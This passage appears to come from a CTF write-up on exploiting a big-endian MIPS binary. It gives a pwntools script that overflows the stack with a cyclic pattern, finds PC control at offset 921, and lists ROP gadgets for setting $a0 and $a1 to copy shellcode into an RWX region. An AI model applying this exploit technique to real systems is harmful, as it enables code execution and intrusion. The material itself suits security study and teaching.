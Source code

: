 ```python
    r.recvline()
    r.send('\n') # this will force passwords[0] to be overwritten with 0xA, making the password size length wrong

    log.info("filling up the stack")
    raw_input("attach to gdb now...")
    pattern = cyclic(2000, n=4)
    for i in range(12):
        r.send(pattern[i*102:i*102+102])

    r.interactive()
```

And we now know that the PC is controlled at offset 921, as we are on a Big
Endian architecture:

{{ img(src="https://i.imgur.com/NYLt8XQ.png" title="image_alt") }}


#### ROP-ing to a fixed area ####


So great, we can control `$ra`, and therefore call any location. But the MIPS ABI
uses registers (from `$a0` to `$a3`) to store parameters of function
calls so we need to control (at least some of) them.

To achieve code execution, I decided to reach control only of `$a0` and `$a1`,
which is then sufficient to call `read_passwords(buffer, length)`, and have a
shellcode copied into one of the fixed RWX location.

After seeing too many ROP tools for MIPS fail, I simply used `objdump -D` to
find the following gadgets:

  * 0x00403ba4: Control `$s2` from a value given from the stack
```bash
.text:00403BA4 lw      $ra, 0x28+var_4($sp)
.text:00403BA8 lw      $s2, 0x28+var_8($sp)
.text:00403BAC lw      $s1, 0x28+var_C($sp)
.text:00403BB0 lw      $s0, 0x28+var_10($sp)
.text:00403BB4 jr      $ra
```

  * 0x403bbc: Use `$s2` to control `$v0`
```bash
.text:00403BBC lw      $ra, 0x28+var_4($sp)
.text:00403BC0 move    $v0, $s2
.text:00403BC4 lw      $s1, 0x28+var_C($sp)
.text:00403BC8 lw      $s2, 0x28+var_8($sp)
.text:00403BCC lw      $s0, 0x28+var_10($sp)
.text:00403BD0 jr      $ra
```

  * 0x00403b98: Use `$v0` to control `$a0`
```bash
.text:00403B98 move    $a0, $v0
.text:00403B9C bnez    $s0, loc_403B7C
.text:00403BA0 move    $a1, $zero
```
